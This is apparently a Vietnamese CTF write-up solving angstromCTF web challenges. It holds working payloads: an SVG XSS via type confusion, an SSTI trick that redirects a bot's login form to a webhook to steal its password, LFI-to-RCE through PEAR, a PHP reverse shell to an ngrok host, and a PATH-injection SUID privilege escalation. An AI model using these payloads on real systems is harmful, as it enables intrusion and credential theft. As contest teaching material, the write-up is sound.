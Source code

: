 ## [10] catch me if you can

view source code sẽ tìm ra flag 

## [20] Celeste Speedrunning Association
Score cao nhất là 0, thử đưa một số rất lớn vào sẽ khiến nó tràn số về số âm (có vẻ code bằng JAVA)
```
start=168261534697465165489498497498
```

```
you win the flag: actf{wait_until_farewell_speedrun}
```

## [40] shortcircuit
Hàm chunk sẽ split flag ra thành mảng 4 phần tử, mỗi phần tử 30 character long, sau đó dùng swap hoán đổi vị trí 4 phần tử này, gọi swap 2 lần trên mảng trên thì mảng sẽ về vị trí ban đầu, join lại ta sẽ có flag

```
swap(swap(chunk("7e08250c4aaa9ed206fd7c9e398e2}actf{cl1ent_s1de_sucks_544e67ef12024523398ee02fe7517fffa92516317199e454f4d2bdb04d9e419ccc7", 30))).join("")
```

```
actf{cl1ent_s1de_sucks_544e67e6317199e454f4d2bdb04d9e419ccc7f12024523398ee02fe7517fffa92517e08250c4aaa9ed206fd7c9e398e2}
```

## [40] directory
Flag nằm ở một trong số cái file đó, bruteforce đến file 3054 sẽ thấy flag

https://directory.web.actf.co/3054.html
```
actf{y0u_f0und_me_b51d0cde76739fa3}
```

## [40] Celeste Tunneling Association
Theo code ta chỉ cần đưa giá trị `flag.local` vào header Host là sẽ có flag

```
actf{reaching_the_core__chapter_8}
```

## [80] hallmark
Goal là XSS để lấy flag từ cookie của con bot, nhưng cách thông thường thì ta sẽ không thể lấy được content type `image/svg+xml` nhằm đưa một file svg chứa javascript vào

Tuy nhiên tại route PUT, ta có thể update card, với logic xử lý bên dưới ta có thể update để card trả về `image/svg+xml` bằng lỗi type confusion
```
cards[id].type = type == "image/svg+xml" ? type : "text/plain";
    cards[id].content = type === "image/svg+xml" ? IMAGES[svg || "heart"] : content;
```
Request:
```http 
PUT /card HTTP/1.1
Host: hallmark.web.actf.co
Content-Length: 1202
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://hallmark.web.actf.co
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://hallmark.web.actf.co/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

svg=text&content=%3c%3f%78%6d%6c%20%76%65%72%73%69%6f%6e%3d%22%31%2e%30%22%20%73%74%61%6e%64%61%6c%6f%6e%65%3d%22%6e%6f%22%3f%3e%0a%3c%21%44%4f%43%54%59%50%45%20%73%76%67%20%50%55%42%4c%49%43%20%22%2d%2f%2f%57%33%43%2f%2f%44%54%44%20%53%56%47%20%31%2e%31%2f%2f%45%4e%22%20%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%47%72%61%70%68%69%63%73%2f%53%56%47%2f%31%2e%31%2f%44%54%44%2f%73%76%67%31%31%2e%64%74%64%22%3e%0a%0a%3c%73%76%67%20%76%65%72%73%69%6f%6e%3d%22%31%2e%31%22%20%62%61%73%65%50%72%6f%66%69%6c%65%3d%22%66%75%6c%6c%22%20%78%6d%6c%6e%73%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%32%30%30%30%2f%73%76%67%22%3e%0a%20%20%3c%70%6f%6c%79%67%6f%6e%20%69%64%3d%22%74%72%69%61%6e%67%6c%65%22%20%70%6f%69%6e%74%73%3d%22%30%2c%30%20%30%2c%35%30%20%35%30%2c%30%22%20%66%69%6c%6c%3d%22%23%30%30%39%39%30%30%22%20%73%74%72%6f%6b%65%3d%22%23%30%30%34%34%30%30%22%2f%3e%0a%20%20%3c%73%63%72%69%70%74%20%74%79%70%65%3d%22%74%65%78%74%2f%6a%61%76%61%73%63%72%69%70%74%22%3e%0a%20%20%20%20%61%6c%65%72%74%28%22%58%53%53%20%62%79%20%42%48%41%52%41%54%22%29%3b%0a%20%20%3c%2f%73%63%72%69%70%74%3e%0a%3c%2f%73%76%67%3e&id=2c05d443-a964-44b6-8d9f-6b91bbfdb41b&type[]=image/svg%2bxml
```
Ta sẽ craft được một link thực thi được JS, gửi link này đến bot và lấy flag
https://hallmark.web.actf.co/card?id=2c05d443-a964-44b6-8d9f-6b91bbfdb41b

## [110] brokenlogin
Ứng dụng chạy flask, nhìn vào đoạn sau ta có thể thấy lỗi SSTI
```
render_template_string(indexPage % custom_message, fails=fails)
```
`custom_message` là data lấy từ `request.args["message"]`, được đưa trực tiếp vào `render_template_string`, nhưng vấn đề flag không nằm ở đây là flag nằm ở password của con bot, nên có vẻ đây vẫn là challenge client side

Mặc định thì template engine sẽ escape html của tất cả output, ta không thể chèn tag html gì, nhưng vì ta có thể dùng template markup, jinja (flask mặc định sài jinja) có một keyword là safe để đánh dấu là output này safe và không cần escape, ta có thể dùng keyword này để chèn HTML vào và từ đó lead tới XSS

Nhưng để ý nếu payload dài quá 25 ký tự nó sẽ không nối input vào `render_template_string` nữa nên ta sẽ dùng 1 trick nhỏ

`{{request.args.a|safe}}`

```
https://brokenlogin.web.actf.co/?message={{request.args.a|safe}}&a=%3Cscript%3Ealert(%27a%27)%3C/script%3E
```
Ta sẽ lấy input từ một parameter khác là `a` thì ta sẽ bypass qua được length restriction

Tiếp theo ta sẽ dùng JS để thay đổi `action` của form để khi con bot submit thì nó sẽ gửi đến url của ta 
```
https://brokenlogin.web.actf.co/?message={{request.args.a|safe}}&a=%3Cscript%3Edocument.body.onload%20=%20()%20=%3E%20document.getElementsByTagName(%27form%27)[0].action%20=%20%22https://webhook.site/68a40976-d351-4dde-a022-b23547e4cc1c%22%3C/script%3E
```
webhook:
```
username=admin&password=actf%7Badm1n_st1ll_c4nt_l0g1n_11dbb6af58965de9%7D
```

## [180] filestore
Cái upload file thật ra để đánh lạc hướng đó ae, bài này gồm 2 giai đoạn, giai đoạn from LFI to RCE và leo quyền để đọc flag.

Về LFI to RCE, đọc source ta sẽ thấy nếu có param `f` thì nó sẽ `include "./uploads/" . $_GET["f"];` => Path traversal, nhưng vấn đề là include cái gì đây, đọc file thì ok nhưng mà cũng không thể đọc flag, cái flag đã bị set permission để chỉ cho admin đọc, mình là user `ctf` không đọc được. Ta sẽ đến với PEAR, PEAR (PHP Extension and Application Repository) là một framework của PHP, liên tưởng nó giống như NPM bên NodeJS, nó hỗ trợ coder tái sử dụng các class có sẵn của PHP (xử lý cache, DB, ...) để tiết kiệm thời gian khi dev. Bản thân nó là một CLI program, nhưng nếu PHP config set `register_argc_argv` thì pear sẽ có thể nhận các REQUEST paramater thay cho CLI argument, và PEAR thì gần như luôn tích hợp sẵn trong PHP

http://man.he.net/man1/pecl

Như ta thấy với option `config-create`, ta có thể tạo ra một config file, với việc có thể truyền tham số cho program thông qua các parameter, ta có thể write được một con Shell lên server và từ đó RCE
```
config-create  Create a Default configuration file
```
Với điều kiện ta tìm được 1 thư mục mà ta có quyền write, cùng với đó là config `register_argc_argv` được set là true. Với PHP docker image thì config `register_argc_argv` luôn được set, và theo như file docker thì permission của folder `www` bị đổi, ta không có quyền write vào nó, ta sẽ dùng thư mục `tmp`, write shell vào đây rồi dùng path traversal include file PHP đó 
![](https://i.imgur.com/pkIRLQX.png)

![](https://i.imgur.com/KoaL5Qo.png)

Giờ dùng PHP để lấy reverse shell
```http
GET /?f=../../../../tmp/shin24.php&c=php+-r+'$sock=fsockopen("0.tcp.ap.ngrok.io",10968);$proc=proc_open("/bin/sh+-i",+array(0=>$sock,+1=>$sock,+2=>$sock),$pipes);' HTTP/1.1
Host: filestore.web.actf.co
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


```

Giờ ta cat flag thôi nhở

![](https://i.imgur.com/HAgt4Bh.png)

Làm gì dễ thế =))), đây là state 2, ta sẽ phải priv esc để đọc được flag, check owner thấy flag.txt là của admin, vậy ta phải nâng quyền mình lên admin, trong các file mà ta được đưa có 2 file SUID binary, lúc đầu thì mình cũng khá confuse, để đỡ dài dòng thì mình sẽ nói luôn là ta cần chú ý vào file `list_uploads`, đưa vào IDA và f5 lên ta sẽ thấy nó đang gọi đến binary `ls`
![](https://i.imgur.com/5L8QjUR.png)
Nhưng mà lưu ý là ở đây nó gọi đến ls, chứ không phải `/bin/ls`, vậy thì ta có thể dùng PATH injection, tạo một file tên `ls` ở một folder nào đó (`tmp` đi) rồi chạy lại SUID kia, file `ls` sẽ là một file để spawn shell. Nội dung file `ls` của mình (thật ra là của robbert viết, pao thủ thế giới)
```c 
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sched.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <linux/userfaultfd.h>
#include <sys/wait.h>
#include <poll.h>
#include <unistd.h>
#include <stdlib.h>
#define log_info(...) { \
    printf("[*] "); \
    printf(__VA_ARGS__); \
    putchar(10); \
};

int main(){
    setuid(999);
    if(getuid()!=999){
        puts("chiu");
        exit(-1);
    }
    execve("/bin/sh",NULL,NULL);
}
```

Đưa file này lên server và compile (hoặc compile rồi đưa lên server, nhớ là zip lại để không bị mất execute permission) rồi chạy file `list_uploads` ta sẽ spawn được shell với quyền admin, giờ thì cat flag thôi
